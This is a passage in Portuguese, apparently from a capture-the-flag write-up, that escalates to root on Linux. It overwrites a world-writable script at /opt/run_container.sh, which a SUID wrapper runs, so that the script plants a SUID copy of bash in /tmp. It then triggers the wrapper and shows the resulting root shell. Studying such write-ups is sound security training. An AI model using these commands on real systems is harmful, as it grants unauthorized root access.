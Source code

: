 > 💡 O truque está no **wrapper SUID** `/usr/sbin/run_container` que chama um **script no /opt**. Vamos olhar.

---

## 🐳 O Wrapper SUID do Docker

Explorando `/opt`:

```bash
cd /opt
ls -la
# drwx--x--x containerd
# -rw-r--r-- dockerfile
# -rwxrwxrwx run_container.sh    <--- 777 (WORLD-WRITABLE)
```

**Bingo:** o wrapper SUID `/usr/sbin/run_container` executa o **`/opt/run_container.sh`**. O script é **escrevível por todos** — logo, qualquer código que colocarmos nele será **executado como root** quando chamarmos o wrapper.

---

## 🔓 Escalada de Privilégio

### Variante 1 — Gerar um bash SUID “rootsh”

Backup + overwrite do script:

```bash
cp /opt/run_container.sh /opt/run_container.sh.bak

cat > /opt/run_container.sh <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootsh
chmod u+s /tmp/rootsh
exit 0
EOF

chmod +x /opt/run_container.sh
```

Disparar o wrapper SUID:

```bash
/usr/sbin/run_container
```

Agora, usar a shell SUID:

```bash
/tmp/rootsh -p
id
# uid=0(root) gid=0(root) euid=0(root) ...
```
